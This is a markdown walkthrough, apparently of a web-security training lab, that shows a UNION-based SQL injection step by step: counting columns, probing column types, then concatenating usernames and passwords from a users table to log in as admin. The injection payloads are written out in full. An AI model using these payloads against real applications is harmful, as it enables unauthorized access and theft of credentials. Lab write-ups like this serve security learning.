

### SQL injection UNION attack, retrieving multiple values in a single column : PRACTITIONER

---

The `category` query parameter is vulnerable to SQL injection.
- We will use a `UNION` based attack.

##### 1. Get the number of columns:
```
' UNION SELECT NULL, NULL--
```
- They are 2, as 3 gets an error.

##### 2. Get the data types
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
- We need strings to get usernames and passwords.

> Only the second column is of type string, and we want to return both `username` and `password`.

##### 3. Perform an Injection

To return both values that are strings in the place of a single column, we can use concatenation. 

```
' UNION SELECT NULL, username || ':' || password FROM users--
```
- This concatenates the values of the `username` and the `password` columns and places a `:` between them.



Get the admin password and login to complete the lab.

---
